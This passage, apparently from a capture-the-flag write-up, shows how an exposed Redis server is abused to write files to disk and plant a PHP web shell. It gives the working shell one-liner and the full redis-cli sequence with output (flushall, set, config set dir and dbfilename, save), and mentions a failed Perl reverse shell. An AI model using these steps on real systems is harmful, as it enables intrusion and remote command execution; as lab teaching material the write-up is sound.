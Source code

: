

### WebShell

[This
post](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.md)
on PacketStorm details how I can use Redis to write arbitrary files on
disk. I can flush the database, write some data into it, and then back
it up to a target location. The article talks about writing an SSH key.
SSH isn't enabled here, but, because I know that the database server
shares disk space with www, I can write a web shell.

#### Exploit Limitations

This isn't by any means perfect. For example, the database will compress
repeated text patterns, so could I lose some of the text I want to
write. So for example, when I tried to write `<br/>` into multiple
places in a php file, only the first actually made it through as
desired. Even if I tried using `<br/>` and `<br />`, the second `<br`
was replaced with binary data. Similarly, when I wrote a command to get
a `perl` reverse shell, the pattern `,">&S");` was replaced and thus
broke the script.

#### Exploit to WebShell

Luckily for me, I can write a simple php webshell, and there's no
repeats, and php doesn't care about garbage before or after the shell.

Steps (all in `redis-cli`):

1.  flush the database
2.  write shell to database
3.  set directory
4.  set filename
5.  save



    root@kali# cat redis.txt  # show the shell file



    <?php system($_REQUEST['cmd']); ?>


    root@kali# redis-cli -h 127.0.0.1  flushall  # step 1
    OK
    root@kali# cat redis.txt | redis-cli -x set crackit  # step 2
    OK
    root@kali# redis-cli 
    127.0.0.1:6379> config set dir /var/www.md/8924d0549008565c554f8128cd11fda4/  # step 3
    HISTORY: /root/.rediscli_history
    OK
    127.0.0.1:6379> config set dbfilename "df.php"       # step 4
    HISTORY: /root/.rediscli_history
    OK
    127.0.0.1:6379> save                                 # step 5
    HISTORY: /root/.rediscli_history
    OK
